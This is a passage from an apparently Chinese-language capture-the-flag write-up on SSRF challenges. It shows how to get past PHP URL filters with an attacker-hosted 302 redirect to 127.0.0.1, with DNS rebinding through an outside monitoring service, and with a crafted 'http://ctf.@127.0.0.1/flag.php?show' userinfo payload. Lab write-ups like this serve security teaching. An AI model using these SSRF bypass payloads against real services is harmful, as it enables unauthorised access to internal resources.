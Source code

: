 > else{
>     die('scheme');
> }
> ?>
> ```
>
> - FILTER_FLAG_IPV4 – 要求值是合法的 IPv4 IP（比如 255.255.255.255）
> - FILTER_FLAG_IPV6 – 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
> - FILTER_FLAG_NO_PRIV_RANGE – 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
> - FILTER_FLAG_NO_RES_RANGE – 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

302跳转(其实354也可以用这个方法)

在自己服务器写个php文件，然后访问：http://xxx/xxx.php

```php
<?php
header("Location:http://127.0.0.1/flag.php"); 
```

或者是dns重绑定
原理：[浅谈DNS重绑定漏洞 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/89426041)

可以在[CEYE - Monitor service for security testing](http://ceye.io/)注册一个帐号
修改dns rebinding：加一个127.0.0.1
然后用给的域名就行：http://r.xxx/flag.php



## 358

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);
> if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
>     echo file_get_contents($url);
> }
> ```
>
> 

正则表达式要匹配`http://ctf.`开头，`show`结尾的url：
按url格式构造一下：

```
http://ctf.@127.0.0.1/flag.php?show
```

- php的curl默认读取@后面的部分

  ```
  http://abc@127.0.0.1
  实际上是以用户名abc连接到站点127.0.0.
  ```
